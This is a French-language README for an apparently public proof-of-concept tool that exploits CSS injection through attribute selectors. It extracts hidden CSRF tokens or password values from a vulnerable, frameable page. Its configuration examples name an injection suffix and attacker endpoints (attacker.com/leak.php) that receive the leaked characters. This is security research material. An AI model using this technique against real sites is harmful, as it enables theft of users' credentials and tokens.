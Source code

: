 # PoC - CSS Injection : Sélecteur d'attributs

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC d'exploitation d'une injection CSS en utilisant les sélecteurs d'attributs afin de récupérer la valeur d'un attribut d'un élément HTML.

## Prérequis

- Le site vulnérable doit pouvoir être iframé, voir entêtes HTTP `X-Frame-Options` et `frame-ancestors`.
- Il existe certaines limites lorsque la valeur à récupérer commence par un chiffre. La valeur de sélection doit alors être entourée par de guillemets simples ou doubles et l'exploitation peut ne pas être possible dans le cas ou ces caractères sont filtrés par l'application.

## Configuration

Avant d'utiliser le PoC, configurer les valeurs suivantes :

```
/* ==== CONFIG ==== */
// URL complète de l'application vulnérable
const RURL = "http://192.168.56.101/css-injection/partie1/css-injection-element-hidden.php?color=red;}";  

// URL de la machine de l'attaquant permettant de connaitre les caractères déjà identifiés
const LURL_KNOWNCHARS = "http://192.168.56.102/css-injection/partie1/poc/knownChars.php";

// URL de la machine de l'attaquant permettant d'indiquer un nouveau caractère identifié
const LURL_LEAKCHAR = "http://192.168.56.102/css-injection/partie1/poc/leak.php?char=";

// Nom de l'élément HTML ciblé
const HTML_ELEMENT_NAME = "input";

// Nom de l'attribut HTML ciblé
const HTML_ATTRIBUTE_NAME = "name";

// Valeur NAME de l'attribut HTML ciblé
const HTML_ATTRIBUTE_VALUE = "csrf-token";

// True si le champs ciblé est de type "hidden" (utilisation des combinateurs CSS ~*)
const isHiddenTypeElement = true;

// Lorsque les caractères "'" et """ sont filtrés par l'application il n'est pas possible de récupérer une valeur commençant par un chiffre
const isQuoteFiltered = true;
```

## Utilisation

### Récupération d'une valeur d'un champ de type password

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = false;
```

### Récupération d'une valeur d'un champ de type hidden

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = false;
```

## Démo

### Récupération d'une valeur d'un champ de type password

![](https://github.com/Sharpforce/PoC-CSS-injection-with-attribute-selector/blob/master/Resources/password.gif)

### Récupération d'une valeur d'un champ de type hidden

![](https://github.com/Sharpforce/PoC-CSS-injection-with-attribute-selector/blob/master/Resources/hidden.gif)